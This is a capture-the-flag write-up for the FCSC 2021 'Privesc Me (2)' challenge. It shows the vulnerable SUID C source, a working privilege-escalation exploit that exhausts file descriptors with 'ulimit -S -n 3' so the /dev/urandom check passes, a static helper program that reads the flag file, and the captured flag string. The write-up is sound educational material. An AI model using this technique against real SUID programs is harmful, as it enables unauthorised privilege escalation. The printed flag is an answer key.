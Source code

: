+++
title = "[FCSC 2021 - misc] Privesc Me (2) - \"ALED\" - Your randomness checker"
tags = ["ctf", "ret2school", "FCSC", "Privesc Me", "0p", "0poss", "2021", "misc", "privesc"]
date = "2021-05-03"
+++

# Privesc Me (2) - "ALED" - Your randomness checker (misc - 194 pts)

> Le dernier stagiaire de l'équipe nous a pondu un nouveau programme pour tester la robustesse des clés d'authentification que notre administrateur système utilise. Son outil est disponible dans le dossier stage1. Le chef a poussé un soupir d'agacement en voyant le code.

I found this one pretty fun and I think it was my favorite along with "It's mipsy router".

Once connected to the ssh, into the `stage1` folder, there are four files, `build.sh`, `flag.txt` (I wonder what that is), `stage1` (a SUID binary) and its source in `stage1.c`, here it is :
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#define BUF_SIZE 128

int main(int argc, char const *argv[]) {

    if(argc != 3){
        printf("Usage : %s <key file> <binary to execute>", argv[0]);
    }
    setresgid(getegid(), getegid(), getegid());

    int fd;
    unsigned char randomness[BUF_SIZE];
    unsigned char your_randomness[BUF_SIZE];
    memset(randomness, 0, BUF_SIZE);
    memset(your_randomness, 0, BUF_SIZE);

    int fd_key = open(argv[1], O_RDONLY, 0400);
    read(fd_key, your_randomness, BUF_SIZE);

    fd = open("/dev/urandom", O_RDONLY, 0400);
    int nb_bytes = read(fd, randomness, BUF_SIZE);
    for (int i = 0; i < nb_bytes; i++) {
        randomness[i] = (randomness[i] + 0x20) % 0x7F;
    }

    for(int i = 0; i < BUF_SIZE; i++){
        if(randomness[i] != your_randomness[i]) {
            puts("Meh, you failed");
            return EXIT_FAILURE;
        }
    }
    close(fd);
    puts("Ok, well done");
    char* arg[2] = {argv[2], NULL};
    execve(argv[2], arg, NULL);
    return 0;
}
```
It initializes two 128 bytes-long arrays with zeros and compares them. If they are the same, we get to execute any program we want... maybe `sh` ?

The `build.sh` file contains `gcc stage1.c -static -o stage1`. I guess the `-static` is here to prevent any `LD_PRELOAD`, that would be to easy. But this option gave me the idea for the exploit.

By googling things like "predict /dev/urandom ctf writeup" I found several [writeup](https://nickcano.com/pwnables-write-ups-oct17/)s on several similar challenges that were using `ulimit -f 0` in order to limit "the maximum size of files created by the shell" (- man). But the program here doesn't create any file to write the random content to it, but just reads from `/dev/urandom`. So we have to prevent it from reading from `urandom` to keep the `randomness` array filled with zeros. The `-n` option in the `ulimit` command allows to set a limit on the number of opened file descriptors.
I modified the original source on my system to make it print when the file openings fail and where the comparaison fails :
```c
int main(int argc, char const *argv[]) {

    if(argc != 3){
        printf("Usage : %s <key file> <binary to execute>", argv[0]);
    }
    setresgid(getegid(), getegid(), getegid());

    int fd;
    unsigned char randomness[BUF_SIZE];
    unsigned char your_randomness[BUF_SIZE];
    memset(randomness, 0, BUF_SIZE);
    memset(your_randomness, 0, BUF_SIZE);

    int fd_key = open(argv[1], O_RDONLY, 0400);
    read(fd_key, your_randomness, BUF_SIZE);
    if (-1 == fd_key)
	    puts("key open failed");

    fd = open("/dev/urandom", O_RDONLY, 0400);
    if (-1 == fd)
	    puts("/dev/urandom open failed");

    int nb_bytes = read(fd, randomness, BUF_SIZE);
    for (int i = 0; i < nb_bytes; i++) {
        randomness[i] = (randomness[i] + 0x20) % 0x7F;
    }

    printf("%128s\n", randomness);
    printf("%128s\n", your_randomness);
    for(int i = 0; i < BUF_SIZE; i++){
        if(randomness[i] != your_randomness[i]) {
	    printf("%#x : (%#x != %#x)", i, randomness[i], your_randomness[i]);
            puts("Meh, you failed");
            return EXIT_FAILURE;
        }
    }
    close(fd);
    puts("Ok, well done");
    char* arg[2] = {argv[2], NULL};
    execve(argv[2], arg, NULL);
    return 0;
}
```
Compile it with `gcc stage1.c -static -o stage1`.

By running `ulimit -n 3 ; ./stage1 osef /bin/sh` locally, we get :
```
bash: start_pipeline : pgrp pipe: Trop de fichiers ouverts
key open failed
/dev/urandom open failed                                                                                           
Ok, well done
/bin/sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Error 24
```
It says "Ok, well done" (nice) but also `/bin/sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Error 24`. Yeah obviously, `sh` is cannot load any dynlib since it already has 3 file descriptors open (stdin, stdout and stderr). So either we recompile `/bin/sh` statically, which I didn't do, or we just make another program, statically linked, to read the flag for us. Here it is :
```c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/resource.h>

int main() {
	struct rlimit lim = { 0 };
	if (0 != getrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("Meh");
		return 1;
	}
	printf("Hard/soft limits : %ld/%ld\n", lim.rlim_cur, lim.rlim_max);

	lim.rlim_cur = lim.rlim_max;
	if (0 != setrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("w00t");
		return 2;
	}

	if (0 != getrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("Meh");
		return 3;
	}
	printf("Hard/soft limits : %ld/%ld\n", lim.rlim_cur, lim.rlim_max);

	char flag_buf[256] = { 0 };
	int fd = open("/home/challenger/stage1/flag.txt", O_RDONLY);
	if (-1 == fd)
	{
		puts("Phuck");
		return 4;
	}

	int red = read(fd, flag_buf, sizeof(flag_buf));
	printf("%d bytes read : %s\n", red, flag_buf);

	return 0;
}
```

It sets the soft limit of opened file descriptors to the maximum, that's why we need to use `-S` in the final exploit to set the soft limit instead of the default hard limit (which we can't increase afterwards).
I compile this remotly and...
```bash
$ ulimit -S -n 3 ; ./stage1 osef /tmp/yEyyy/exploit
-bash: start_pipeline: pgrp pipe: Too many open files
Ok, well done
Hard/soft limits : 3/1048576
Hard/soft limits : 1048576/1048576
70 bytes read : FCSC{6bd1152e8dcefc368b08a3e82241bc83ea7a613a3322c6a2d818d408e1fb4d60}
```

Yay.